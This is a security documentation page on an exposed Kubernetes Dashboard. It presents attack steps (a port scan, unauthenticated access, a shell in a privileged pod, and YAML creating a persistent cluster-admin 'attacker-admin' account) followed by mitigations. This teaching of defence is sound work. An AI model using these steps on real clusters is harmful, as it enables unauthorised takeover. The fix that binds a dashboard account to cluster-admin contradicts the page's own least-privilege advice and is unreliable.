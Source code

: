 ```yaml
---
sidebar_position: 2
title: Exposed Kubernetes Dashboard
description: Exploiting an exposed Kubernetes Dashboard and implementing best practices to secure dashboard access.
---
```


# Exposed Kubernetes Dashboard

The Kubernetes Dashboard is a web-based interface for managing Kubernetes clusters. However, if not properly secured, it can become a significant attack vector. An exposed dashboard with admin privileges and no authentication can allow an attacker to gain full control over the cluster.

---

## Exploitation Steps: Exposed Dashboard

An attacker can identify an open Kubernetes Dashboard by performing a port scan:

```bash
nmap -p 30000-32767 <cluster-ip>
```

### 1. Access the Dashboard Without Authentication

The attacker locates the dashboard on a NodePort and accesses it through a web browser:

```bash
http://<cluster-ip>:<node-port>/
```

### 2. Execute Commands in the Cluster

The attacker uses the dashboard's terminal to execute commands in a privileged pod:

```bash
kubectl exec -it privileged-pod -- /bin/sh
```

### 3. Create a New Admin User

The attacker creates a new admin ServiceAccount and binds it to the cluster-admin role:

```yaml
apiVersion: v1
kind: ServiceAccount
metadata:
  name: attacker-admin
  namespace: kube-system
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: attacker-admin-binding
subjects:
- kind: ServiceAccount
  name: attacker-admin
  namespace: kube-system
roleRef:
  kind: ClusterRole
  name: cluster-admin
  apiGroup: rbac.authorization.k8s.io
```

### Result

The attacker gains admin access to the cluster, enabling them to deploy malicious workloads, exfiltrate data, or destroy resources.

---

## Mitigation Techniques and Fixes

### 1. Avoid Exposing the Dashboard Publicly

**Issue:** The dashboard is accessible without authentication over a NodePort.
**Fix:** Use a secure network proxy or port-forwarding instead.

#### Secure Access with Port Forwarding

```bash
kubectl proxy
# Access the dashboard securely
http://localhost:8001/api/v1/namespaces/kubernetes-dashboard/services/https:kubernetes-dashboard:/proxy/
```

### 2. Enforce Authentication

**Issue:** Lack of authentication allows unauthorized access.
**Fix:** Implement token-based authentication and disable guest access.

#### Enable Authentication via Service Account Token

```bash
kubectl create serviceaccount dashboard-admin -n kube-system
kubectl create clusterrolebinding dashboard-admin-binding \
  --clusterrole=cluster-admin \
  --serviceaccount=kube-system:dashboard-admin
kubectl get secrets -n kube-system | grep dashboard-admin
kubectl describe secret <dashboard-admin-token> -n kube-system
```

### 3. Restrict Dashboard Privileges

**Issue:** The dashboard runs with cluster-admin privileges, exposing the entire cluster to risk.
**Fix:** Limit the ServiceAccount permissions using RBAC.

#### Create a Restricted Role for the Dashboard

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: restricted-dashboard-role
  namespace: kube-system
rules:
- apiGroups: [""]
  resources: ["pods", "services"]
  verbs: ["get", "list"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: restricted-dashboard-binding
  namespace: kube-system
subjects:
- kind: ServiceAccount
  name: dashboard
  namespace: kube-system
roleRef:
  kind: Role
  name: restricted-dashboard-role
  apiGroup: rbac.authorization.k8s.io
```

---

## Conclusion

To secure the Kubernetes Dashboard:

- Never expose the dashboard directly to the internet.
- Always enforce authentication using Service Account tokens.
- Apply the principle of least privilege by assigning restricted roles to the dashboard.
